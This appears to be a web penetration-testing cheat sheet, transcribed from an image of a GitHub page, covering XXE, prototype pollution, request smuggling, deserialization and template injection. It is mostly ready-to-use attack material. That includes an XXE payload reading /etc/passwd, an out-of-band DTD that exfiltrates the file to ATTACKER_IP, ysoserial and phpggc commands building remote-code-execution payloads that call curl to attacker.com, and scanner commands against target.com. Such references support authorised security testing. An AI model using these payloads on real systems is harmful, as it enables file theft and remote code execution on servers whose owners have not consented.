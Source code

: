     :- Example XXE Payload (to be used in a request body or file upload):
    
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <data>&xxe;</data>
    #
    For OOB XXE:
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://ATTACKER_IP:PORT/ext.dtd"> %xxe;]>
    Contents of ext.dtd on attacker server:
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://ATTACKER_IP:PORT/?f=%file;'>">
    %eval;
    %exfil;

### (nuclei has XXE templates)    
    :- Run XXE templates
    nuclei -u https://target.com/xml_endpoint -t vulnerabilities/xxe/ 

### Prototype Pollution    (Primarily a JavaScript vulnerability, manual testing and code review are crucial)
    Example in URL: https://target.com/?__proto__[isAdmin]=true
    Example in JSON body: {"__proto__": {"isAdmin": true}}
    Tools like ppfuzz or custom scripts can help discover potential gadgets.
    
    :- Conceptual: Fuzz for prototype pollution gadgets
    ppfuzz -u https://target.com/script.js -l 3

### HTTP Request Smuggling / Desync Attacks    
    :- (Tools like Burp's HTTP Request Smuggler extension are essential. CLI tools can help test.)
    
    :- Test for CL.TE and TE.CL vulnerabilities
    smuggler.py -u https://target.com -x
    
    :- Test POST with data, log results
    smuggler.py -u https://target.com -m POST -d "param=val" -l log.txt 
    Turbo Intruder (Burp Extension) is highly effective for this.

### Deserialization Vulnerabilities    (Highly language/framework specific. ysoserial for Java, phpggc for PHP)
    
    :- Generate Java deserialization payload
    java -jar ysoserial.jar CommonsCollections5 "curl http://attacker.com/hit" > java_payload.ser 
    
    :- Generate PHP deserialization payload
    phpggc Guzzle/FW1 RCE system "curl http://attacker.com/php_hit" > php_payload.phar 
    (These payloads would then be sent in appropriate request parameters/bodies)

### Server-Side Template Injection (SSTI)    (Manual testing with language-specific payloads is common)
    Example Payloads:
    {{ 7*7 }} (Jinja2/Twig)
    <%= 7*7 %> (Ruby ERB)
    ${7*7} (Java EL, Freemarker)
    #{7*7} (Java JSF)
    @(7*7) (Razor .NET)
    